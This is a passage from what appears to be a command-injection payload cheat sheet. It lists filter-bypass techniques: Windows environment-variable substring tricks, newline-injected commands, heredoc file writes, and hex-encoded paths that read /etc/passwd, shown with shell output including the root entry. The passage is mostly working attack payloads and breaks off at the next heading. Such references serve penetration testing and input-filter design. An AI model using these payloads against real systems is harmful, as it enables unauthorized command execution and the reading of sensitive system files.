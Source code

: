 Works on Windows only.

```powershell
ping%CommonProgramFiles:~10,-18%IP
ping%PROGRAMFILES:~10,-5%IP
```

### Bypass with a line return

```powershell
something%0Acat%20/etc/passwd
```

You can also write files.

```powershell
;cat>/tmp/hi<<EOF%0ahello%0aEOF
;cat</tmp/hi
hello
```

### Bypass characters filter via hex encoding

Linux

```powershell
swissky@crashlab:~$ echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
/etc/passwd

swissky@crashlab:~$ cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat $abc
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ `echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -p <<< 2f6574632f706173737764
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -p <<< 2f6574632f706173737764`
root:x:0:0:root:/root:/bin/bash

swissky@crashlab:~$ xxd -r -ps <(echo 2f6574632f706173737764)
/etc/passwd

swissky@crashlab:~$ cat `xxd -r -ps <(echo 2f6574632f706173737764)`
root:x:0:0:root:/root:/bin/bash
```

### Bypass characters filter

Commands execution without backslash and slash - linux bash
